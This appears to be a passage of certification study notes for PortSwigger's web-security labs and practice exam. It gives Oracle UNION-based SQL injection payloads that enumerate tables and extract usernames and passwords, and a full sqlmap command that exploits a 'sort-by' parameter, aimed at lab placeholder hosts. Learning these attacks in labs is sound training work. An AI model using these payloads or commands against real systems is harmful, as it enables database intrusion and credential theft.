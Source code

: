 ```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```  

>Oracle payload to retrieve the details of the columns in the table.  

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
```  

>Oracle payload to retrieve the usernames and passwords from Users_XXX table.  

```
'+UNION+SELECT+USERNAME_XXX,+PASSWORD_XXX+FROM+USERS_XXX--
```  
  
[PortSwigger Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  

### SQLMAP  

>In the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) we ***identify*** SQLi on the advance search function by adding a single quote and the response result in `HTTP/2 500 Internal Server Error`.

>Here is my HackTheBox CPTS study notes on SQLMAP examples to bypass primitive protection WAF mechanisms. [SQLMAP Essentials - Cases](https://github.com/botesjuan/cpts-quick-references/blob/main/module/sqlmap%20Essentials.md#exercise-cases)  

>After doing some testing with SQLMAP versions `1.7.2#stable` and `1.6`, I found that both are able to exploit the PortSwigger Practice exam. Walkthrough from [bmdyy doing the Practice Exam using SQLMAP](https://youtu.be/yC0F05oggTE?t=563) for reference of the parameters used.  

[PortSwigger Forum thread - SQLMAP](https://forum.portswigger.net/thread/stage-2-of-practice-exam-with-sqlmap-1-7-2-2078f927)  

>I took the practice exam and was able to exploit SQLi using below payload.  

```
sqlmap -u 'https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \ 
  -H 'authority: 0afd007004402dacc1e7220100750051.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: _lab=YesYesYesYes; session=YesYesYesYes' \
  -H 'referer: https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \
  -H 'sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
  -p 'sort-by' -batch --flush-session --dbms postgresql --technique E --level 5
```  
